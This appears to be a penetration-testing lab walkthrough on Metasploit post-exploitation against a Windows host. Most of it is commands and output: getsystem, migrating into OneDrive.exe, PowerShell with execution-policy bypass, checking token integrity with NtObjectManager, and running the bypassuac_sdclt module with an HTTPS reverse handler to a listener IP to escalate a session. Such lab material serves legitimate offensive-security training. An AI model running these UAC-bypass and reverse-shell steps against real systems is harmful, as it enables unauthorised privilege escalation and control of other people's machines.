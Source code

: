 
### Post-Exploitation Modules

If the target user is a member of the local administrators group, we can elevate our shell to a high integrity level if we can bypass User Account Control (UAC). Repeat steps from the previous section, and then bypass UAC with a Metasploit post-exploitation module. 

```
192.168.249.223
```

```console
> getsystem

> ps
 7112  5276  OneDrive.exe           x64   1        ITWK01\offsec                 C:\Users\offsec\AppData\Local\Microsoft\OneDrive

> migrate 7112

> getuid
Server username: ITWK01\offsec
```

We can't perform admin actions as offsec due to UAC. To display the integrity level of a process, we can use tools such as Process Explorer2 or third-party PowerShell modules such as NtObjectManager. Let's assume the latter is already installed on the system. 

Import the module with Import-Module, and use Get-NtTokenIntegrityLevel to display the integrity level of the current process by retrieving and reviewing the assigned access token.

```console
> shell

> powershell -ep bypass

> Import-Module NtObjectManager

> Get-NtTokenIntegrityLevel

> ^Ctrl Z
Background channel 1? [y/N]  y

> bg
[*] Backgrounding session 2...

> msf6 exploit(multi/handler) > search UAC

> use exploit/windows/local/bypassuac_sdclt

> show options
> set SESSION 2
> set LHOST 192.168.45.198
> run
[*] Started HTTPS reverse handler on https://192.168.45.198:443
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[!] This exploit requires manual cleanup of 'C:\Users\offsec\AppData\Local\Temp\xHplJY.exe'
[*] Please wait for session and cleanup....
[*] Registry Changes Removed
[*] Exploit completed, but no session was created.

> shell

> powershell -ep bypass
```